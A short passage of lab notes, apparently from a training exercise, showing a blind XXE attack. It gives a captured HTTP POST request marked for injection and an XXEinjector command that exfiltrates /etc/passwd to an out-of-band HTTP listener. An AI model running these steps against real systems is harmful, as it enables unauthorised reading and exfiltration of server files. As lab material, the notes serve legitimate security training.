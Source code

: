 Copy the HTTP request with only the **1st** XML line. Then add `XXEINJECT` below
```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

```shell
ruby XXEinjector.rb --host=127.0.0.1 --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```

Ex-filtrated data gets stored in the Logs folder.
